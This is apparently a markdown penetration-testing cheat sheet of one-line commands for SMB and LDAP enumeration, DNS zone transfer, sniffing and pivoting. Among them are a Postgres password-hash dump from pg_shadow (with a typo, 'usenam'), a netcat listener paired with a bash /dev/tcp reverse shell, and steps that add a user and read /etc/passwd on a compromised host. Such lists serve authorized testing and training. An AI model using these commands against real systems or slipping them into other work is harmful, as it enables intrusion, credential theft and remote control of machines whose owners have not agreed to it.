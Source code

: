 <br>

### **SMB (Server Message Block)**
- **Discover:**
    > nmap -p 139,445 --open -iL `<file_with_ips>`

- **Share discovery:**
    > smbclient -L \\`<ip>`\\ -U anonymous
- **Connect to share:**
    > smbclient \\\\`<ip>`\\share -U anonymous
    
<br>

### **DNS/LDAP:**
- **Discover DNS/LDAP:**
    > nmap -p 389 -sV `<file_with_ips>`

- **DNS/LDAP info:**
    > nmap -p 389 --script ldap-rootdse 192.168.52.4

- **DNS/LDAP zone transfer:**
    > dig axfr `<domain>`

<br>

### **Postgres**
- **Connection to database:**
    > psql -h `<ip>` -U `<username>`

- **Dumping of hashes:**
    > select usenam, passwd from pg_shadow  
    > copy to file (replace '|' with ':') > postgres.hash

<br>

### **Reverse shell:**
- **Start listener:**
    > nc -lvp `<>`

- **Start reverse shell:**
    > bash -i >& /dev/tcp/`<ip>`/`<port>` 0>&1

<br>

### **Sniffing**
- **Read data betwee two devices:**
    > ettercap -T /`<ip>`// /`<ip>`//

<br>

### **Pivoting**
- **Flow:**
    > get shell to device  
    > adduser `<username>` -p `<password>`  
    > check user -> cat /etc/passwd  
    > nmap -sV `<ip>`  
    > ssh `<username>`@`<ip>` -p `<port>`  
    > ip a / ip r  
 